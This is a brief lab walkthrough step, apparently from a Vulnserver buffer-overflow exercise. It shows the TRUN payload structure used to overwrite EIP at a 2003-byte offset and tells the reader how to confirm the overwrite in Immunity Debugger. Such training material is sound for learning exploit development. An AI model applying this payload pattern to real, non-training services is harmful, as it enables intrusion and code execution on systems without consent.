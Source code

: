 # 4. Overwriting the EIP

**Goal:** Confirm control over EIP by sending a buffer with:
- 2003 junk characters (A)
- 4 overwrite characters (B)
- Additional padding (C)

---

## 📦 Payload Structure

"TRUN /.:/" + "A"*2003 + "B"*4 + "C"*100

yaml
Copy
Edit

---

## ✅ Run:

```bash
python3 eip.py
🧠 What to Look For in Immunity:
EIP = 42424242 → means B (hex 0x42) successfully overwrote EIP

